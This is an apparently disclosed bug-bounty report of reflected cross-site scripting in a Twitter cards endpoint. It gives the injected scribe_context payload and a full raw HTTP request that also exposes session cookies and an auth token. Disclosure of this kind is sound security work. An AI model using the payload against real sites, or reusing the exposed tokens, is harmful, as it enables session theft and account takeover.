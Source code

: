 #  Cross-site scripting (reflected)

## Report Details
- **Report ID**: 176754
- **URL**: https://hackerone.com/reports/176754
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-10-19T10:29:51.341Z
- **Disclosed**: 2016-12-09T13:30:49.460Z

## Reporter
- **Username**: linkks
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
hi Twitter team

https://twitter.com/i/cards/tfw/v1/788663483873263617?cardname=player&autoplay_disabled=true&forward=true&earned=true&lang=en&card_height=130&scribe_context=l4tqu%3c%2fscript%3e%3cscript%3ealert(1)%3c%2fscript%3eo7gyv

The value of the scribe_context request parameter is copied into a JavaScript string which is encapsulated in double quotation marks. The payload l4tqu</script><script>alert(1)</script>o7gyv was submitted in the scribe_context parameter. This input was echoed unmodified in the application's response.

GET /i/cards/tfw/v1/788663483873263617?cardname=player&autoplay_disabled=true&forward=true&earned=true&lang=en&card_height=130&scribe_context=l4tqu%3c%2fscript%3e%3cscript%3ealert(1)%3c%2fscript%3eo7gyv HTTP/1.1
Host: twitter.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://twitter.com/
Cookie: guest_id=v1%3A146255384359384655; _ga=GA1.2.178796086.1467670836; kdt=qU1PQNfIb0sNg6vhmvMkEIe1zla3g5clz7cCgLds; remember_checked_on=1; twid="u=4092731777"; auth_token=b4a4eb0642ec5579bf2f58a98d1eca87ad9552a7; moments_profile_moments_nav_tooltip_self=true; eu_cn=1; mp_c3de24deb6a3f73fba73a616bb625130_mixpanel=%7B%22distinct_id%22%3A%20%22ce74a9d62a1e8a572a472095b248ab3f4167e8341d603b9d689bf497fca88101%22%2C%22isAdmin%22%3A%20false%2C%22isAccountSpending%22%3A%20false%2C%22serviceLevel%22%3A%20%22null%22%2C%22goalBased%22%3A%20true%2C%22%24initial_referrer%22%3A%20%22https%3A%2F%2Fads.twitter.com%2Fnew_campaign%2F18ce54aqb54%2Fstart%22%2C%22%24initial_referring_domain%22%3A%20%22ads.twitter.com%22%7D; mbox=check#true#1476741932|session#dd4f8eba87774a26834c0ce387200a8a#1476743732|PC#dd4f8eba87774a26834c0ce387200a8a.26_5#1477951472; SSESS3c8b2bbd5af1180dab341c61a9900084=krekirm43u81j7g7bqbt9uij76; lang=it; moments_user_moment_profile_create_moment_tooltip=true; _twitter_sess=BAh7CSIKZmxhc2hJQzonQWN0aW9uQ29udHJvbGxlcjo6Rmxhc2g6OkZsYXNo%250ASGFzaHsABjoKQHVzZWR7ADoPY3JlYXRlZF9hdGwrCH3hdNxXAToMY3NyZl9p%250AZCIlZWRlZWQyYzFhYjMwYWYwOTJjMDEwZGM0NzM0NDIxMTk6B2lkIiU3MGQ4%250AMWY5MDI3Y2RjZWQyYmY3OGI2NTEwZTQxOGVkZQ%253D%253D--c5e4969a1a90f82f0db9ffa1991f7a2da912bfba; lang=en
Connection: close



## Attachments
- H8ROxPewSU2iUs099pCJuw_1_.jpg
